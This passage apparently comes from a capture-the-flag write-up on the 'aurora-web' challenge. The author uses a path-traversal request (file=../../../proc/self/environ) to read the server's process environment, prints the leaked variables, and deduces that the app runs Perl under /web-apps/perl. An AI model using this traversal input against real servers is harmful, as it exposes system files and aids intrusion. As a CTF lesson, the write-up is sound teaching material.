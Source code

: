 So, I wanted to read this file. The running process would be the website's Apache server and may contain interesting details like paths to the server files I was unable to read. But, what search query should I make? Since it's a webserver, I guessed `HTTP` should appear in the environment variables, and indeed -

```
file=../../../proc/self/environ
term=http
->
HTTP_ACCEPT_ENCODING=gzip, deflate, br, zstd 
SERVER_NAME=aurora-web.h4ck.ctfcompetition.com
SCRIPT_NAME=/cgi-bin/nsjail-perl-cgi
REDIRECT_STATUS=200
GATEWAY_INTERFACE=CGI/1.1
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
PATH_INFO=/index.pl
DOCUMENT_ROOT=/web-apps/perl
PWD=/usr/lib/cgi-bin REQUEST_URI=/?file=..%2F..%2F..%2Fproc%2Fself%2Fenviron&term=test
PATH_TRANSLATED=/web-apps/perl/index.pl
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at aurora-web.h4ck.ctfcompetition.com Port 1337</address>
REQUEST_SCHEME=http
QUERY_STRING=file=..%2F..%2F..%2Fproc%2Fself%2Fenviron&term=test
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_SEC_FETCH_DEST=empty
HTTP_X_FORWARDED_PROTO=https
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
HTTP_ACCEPT=*/*
HTTP_PRIORITY=u=0
SERVER_ADMIN=[no address given]
HTTP_HOST=aurora-web.h4ck.ctfcompetition.com
HTTP_SEC_FETCH_SITE=same-origin
HTTP_CONNECTION=Keep-Alive
HTTP_USER_AGENT=--
CONTEXT_PREFIX=/cgi-bin/ SHLVL=1
HTTP_SEC_FETCH_MODE=cors HTTP_REFERER=https://aurora-web.h4ck.ctfcompetition.com/
REDIRECT_HANDLER=application/x-nsjail-httpd-perl
HTTP_VIA=1.1 google
SERVER_PROTOCOL=HTTP/1.1
REDIRECT_QUERY_STRING=file=..%2F..%2F..%2Fproc%2Fself%2Fenviron&term=test
SERVER_PORT=1337
SCRIPT_FILENAME=/usr/lib/cgi-bin/nsjail-perl-cgi
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
REDIRECT_URL=/index.pl
REQUEST_METHOD=GET
_=/usr/bin/nsjail 
```

Luckily, the environment variables are saved in a one long line, so only one hit was necessary to findthem all. I separated the result above manually.

Well, that's a lot of information, but the big thing is this: `PATH_TRANSLATED=/web-apps/perl/index.pl`. I now know that the server runs on perl, and the main directory is `/web-apps/perl`.
